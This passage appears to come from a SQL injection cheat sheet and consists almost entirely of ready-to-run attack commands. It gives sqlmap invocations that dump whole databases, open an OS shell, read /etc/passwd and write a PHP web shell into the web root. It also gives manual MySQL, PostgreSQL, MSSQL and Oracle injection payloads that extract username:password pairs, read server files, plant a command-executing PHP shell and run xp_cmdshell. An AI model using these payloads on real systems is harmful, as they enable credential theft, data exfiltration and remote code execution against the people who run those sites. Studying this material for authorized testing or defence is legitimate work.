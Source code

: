 ```bash
# Extract tables from specific database
sqlmap -u "http://target.com/product?id=1" -D webapp --tables

# Extract columns from specific table
sqlmap -u "http://target.com/product?id=1" -D webapp -T users --columns

# Dump table data
sqlmap -u "http://target.com/product?id=1" -D webapp -T users --dump

# Full database dump
sqlmap -u "http://target.com/product?id=1" --dump-all --batch

# OS shell (if database user has FILE privileges)
sqlmap -u "http://target.com/product?id=1" --os-shell

# Read file from server
sqlmap -u "http://target.com/product?id=1" --file-read="/etc/passwd"

# Write file to server
sqlmap -u "http://target.com/product?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

**Manual exploitation examples:**

```sql
-- MySQL injection payloads:

-- Enumerate databases
1' UNION SELECT 1,schema_name,3 FROM information_schema.schemata--

-- Enumerate tables
1' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='webapp'--

-- Enumerate columns
1' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--

-- Extract data
1' UNION SELECT 1,CONCAT(username,':',password),3 FROM users--

-- Read file (requires FILE privilege)
1' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

-- Write file (requires FILE privilege)
1' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'--

-- PostgreSQL specific:
1'; SELECT version()--
1'; SELECT current_database()--

-- MSSQL specific:
1'; SELECT @@version--
1'; EXEC xp_cmdshell 'whoami'--

-- Oracle specific:
1' UNION SELECT NULL,banner,NULL FROM v$version--
```
